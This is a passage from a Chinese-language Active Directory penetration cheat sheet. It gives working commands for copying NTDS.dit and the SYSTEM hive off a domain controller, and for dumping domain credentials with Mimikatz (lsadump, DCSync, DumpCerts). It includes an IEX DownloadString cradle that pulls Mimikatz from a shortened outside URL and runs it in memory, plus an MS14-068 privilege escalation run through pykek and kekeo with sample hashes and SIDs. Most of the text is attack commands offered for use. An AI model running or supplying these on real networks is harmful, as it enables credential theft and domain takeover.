		之后就可以将域控制器中 c:\\temp 目录的文件复制到本地的计算机中。

		copy /z \\demo.local\c$\windows\temp\NTDS.dit c:\temp
		copy /z \\demo.local\c$\windows\temp\SYSTEM.hive c:\temp
		较新版本的 Windows 中 WMIC 已经有些过时了。 PowerShell 提供了 Invoke-WMIMethod cmdlet 可以执行相同的功能。
	
	8-0x03 使用 PowerSploit 的 Invoke-NinjaCopy 远程读取 ntds.dit(需要目标 DC 启用 PowerShell 远程管理)
		Joe Bialek (@JosephBialek)在他的博客中写了如下关于 Invoke-NinjaCopy 的信息。
		目前,已有好几种方法可以转储 Active Directory 和本地密码的 HASH。
		不过直到最近,我发现目前获取 HASH 的技术,需 要依赖于注入代码到 LSASS 进程或使用 VSS ,以获得含有 HASH 文件的副本。
		Invoke-NinjaCopy 的 PowerShell 脚本,支持任何文件(包括NTDS.DIT)的复制,
		无需启动可疑的服务,无需注入代码到进程中,或者提升到 SYSTEM 权限。
		该脚本可以打开整个卷(如C:)的读取句柄并解析 NTFS 结构,从而从一个 NTFS 卷复制文件。此操作需要目标服务器的管理员权限。利用此脚本可以绕过以下保护措施:
		一个已被进程打开且不能被其他进程操作的文件,如 Ntds.dit 文件或注册表中的 SYSTEM hive 配置文件。
		已被设置 SACL 标志的文件,在打开此类文件时,会有提醒(此脚本没有使用 Win32 API 打开文件,因此Windows 没有反应)。
		绕过 DACL ,例如 DACL 只允许 SYSTEM 权限打开一个文件。
		如果指定了 LocalDestination 参数,则文件将被复制到本地服务器(脚本正在从运行的服务器)中指定的文件路径。
		如果指定了 RemoteDestination 参数,则该文件将被复制到远程服务器中指定的文件路径。
		Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -ComputerName "RDLABDC02" -LocalDestination "c:\temp\ntds.dit"
		使用 DIT 快照查看器(https://github.com/yosqueoy/ditsnap) ,可以验证我们是否顺利拿到了Ntds.dit 文件。
		
	8-0x04 在 DC 中使用 Mimikatz 转储 Active Directory 凭据
		一般情况下服务帐户就是域管理员组或同等权限的成员或者攻击者从域管理员最近登录到的计算机中 dump 出登录凭证。
		使用这些凭据,攻击者可以访问域控制器,并可以得到所有的域凭据,其中包括用于创建 Kerberos 的黄金票证的 KRBTGT 帐户的 NTLM 哈希值。
		1. mimikatz.exe从域控上面抓取到所有账户信息:
		mimikatz lsadump::lsa /inject exit
		保存到mimikatz.log:
		# log
		# privilege::debug
		# lsadump::lsa /inject
		在域控制器上运行时,Active Directory域中转储凭证数据。需要管理员访问调试或本地SYSTEM权限
		注意:RID 502的帐户是KRBTGT帐户,RID 500的帐户是该域的默认管理员。
				
	2. Invoke-Mimikatz本地转储Active Directory凭据
		使用 mimikatz 从 LSASS 进程转储凭证 : Invoke-Mimikatz -DumpCreds
		使用 mimikatz 导出所有私有证书即使它们已被标记为不可导出 : Invoke-Mimikatz –DumpCerts
		在远程计算机上使用 debug 提升权限:Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"
		or Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit'
				
	3. 使用 Invoke-Mimikatz 远程转储 Active Directory 凭据 (通过 PowerShell 远程管理)  
		外网下载并完全是在内存中执行代码
		IEX(New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command '"privilege::debug" "LSADump:LSA /inject"' -Computer dc2010.demo.local
		
	8-0x05 使用 Mimikatz 的 DCSync 功能远程转储 Active Directory 凭据
		理解：向 DC 发起同步一个对象（获取帐户的密码数据）的质询。需要域管理员，域管理员组或者自定义委派的一个成员权限。
		2015新的特性—— “DCSync”,可以有效地“假冒”一个域控制器,并可以向目标域控制器请求帐户密码数据。
		之前利用 DCSync 的攻击方法是在域控制器上运行 Mimikatz 或 Invoke-Mimikatz 得到 KRBTGT 账户的密码哈希创建黄金票证。
		如果使用适当的权限执行 Mimikatz 的 DCSync 功能,攻击者就可以通过网络远程读取域控制器的密码哈希,以及以前的密码的哈希,
		且无需交互式登录或复制 Active Directory 的数据库文件NTDS.DIT。
			
		运行 DCSync 所要求的特殊权限有管理员组Administrators,域管理员组 Domain Admins或企业管理员组Enterprise Admins
		以及域控制器计算机帐户的任何成员都能够运行 DCSync 去读取密码数据。
		需要注意的是只读域控制器默认是不允许读取用户密码数据的。
			
		DCSync 是何如工作的:

			a. 使用指定的域名称发现域控制器。
			b. 请求域控制器通过 DSGetNCChanges 复制用户凭据利用目录复制服务DRS远程协议
			DCSync 选项:
			/user - 要拉取数据的用户的 id 或 SID
			/domain可选的 Active Directory 域的 FQDN 域名,Mimikatz 会发现域中的一个 DC 并去连接。如果不提供该参数,Mimikatz 会默认设置为当前域。
			/dc可选的指定你想要使用 DCSync 连接并收集数据的域控制器。
			另外还有一个/guid参数。
			DCSync 命令行示例:
			拉取 demo.local域中的 krbtgt / testwin7 / administrator 用户帐户的密码数据:
			Mimikatz "privilege::debug" "lsadump::dcsync /domain:demo.local /user:testwin7" exit
						
## MS14-048 (限制条件:打了补丁或者域中有Win2012/2012R2 域控)
允许域内任何一个普通用户，将自己提升至域管权限。

作为普通用户向域控请求一个没有PAC的Kerberos TGT认证的票据，域控会返回一个TGT(不包含PAC，PAC通常包含有用户组中的成员关系)

生成一个伪造的PAC，因为没有密钥，所以生成的PAC"被标记"有MD5算法，而不是带有域用户密码数据的HMAC_MD5类型。

把伪造的PAC结合上TGT构造认证数据，作为TGS服务的一部分发送到域控。

域控会混淆构造的数据，所以直接丢弃之前用户发送没带有PAC的TGT，然后新构造一个TGT并用自己的认证数据插入到伪造的PAC当中，再把新TGT发送给用户
    
这样带有伪造PAC的TGT就能使用户成为有漏洞域控上的域管理员。
    
    1. mimikatz从域控上面抓取到所有账户信息
		mimikatz # log
		Using 'mimikatz.log' for logfile : OK
		mimikatz # privilege::debug
		Privilege '20' OK
		mimikatz # lsadump::lsa /inject
		......
    2. https://github.com/bidord/pykek
		C:\pykek-master>python ms14-068.py -u testwin7@demo.local -s S-1-5-21-1239069908-882060383-2558203358-1130 -d owa2010dc.demo.local  -p 1qaz$RFV --rc4 6df9f68e4b0656fa9ffd91d250506f8f
		[+] Creating ccache file 'TGT_testwin7@demo.local.ccache'... Done!]
    3. mimikatz # kerberos::ptc TGT_testwin7@demo.local.ccache (利用mimikatz注入高权限TGT的缓存证书)
	
列举缓存证书的命令klist
	
或者使用 kekeo
kerberos::purge or klist purge(为了让我们自己生成的票据生效，需要我们先用mimikatz将内存中的票据清空)
    
    kekeo.exe # exploit::ms14068 /domain:demo.local /user:testwin7 /password:1qaz$RFV /sid:S-1-5-21-1239069908-882060383-2558203358 /rid:1130 /kdc:owa2010dc.demo.local /ptt (接着使用域、普通域用户名和密码生成票据)
	http://www.mottoin.com/95877.html
	
	
	
**参考**
```
Attack Methods for Gaining Domain Admin Rights in Active Directory
    http://adsecurity.org/?p=2362 (国内关于域的文章基本来自于这里 還有 http://www.harmj0y.net)
一种深度隐蔽的后门方式(二)
    https://www.anquanke.com/post/id/93542
Mimikatz小实验:黄金票据+dcsync
    http://www.freebuf.com/sectool/112594.html
域渗透之hash与票据
    http://mp.weixin.qq.com/s/ENStRpYspx5W974BKPzZtA
域渗透——利用SYSVOL还原组策略中保存的密码
    https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8SYSVOL%E8%BF%98%E5%8E%9F%E7%BB%84%E7%AD%96%E7%95%A5%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/
如何巧妙的从ntds.dit中提取Hash和域信息
    http://www.freebuf.com/articles/system/151463.html
从活动目录中获取域管理员权限的6种方法
    http://www.4hou.com/technology/4256.html
Kerberoasting - Part 3
    https://room362.com/post/2016/kerberoast-pt3/
kekeo ticket 注入
    https://www.anquanke.com/post/id/92484
kerberoasting-without-mimikatz
    https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
    https://zhuanlan.zhihu.com/p/25723674 (翻譯)
Hash传递攻击登陆Windows2012远程桌面
    http://www.freebuf.com/articles/system/15757.html
Mimikatz 非官方指南和命令参考_Part1
    http://www.anquan.us/static/drops/tools-12462.html
Mimikatz 非官方指南和命令参考_Part2
    http://www.anquan.us/static/drops/pentesting-12521.html
Mimikatz 非官方指南和命令参考_Part3
    http://www.anquan.us/static/drops/tools-12754.html
```
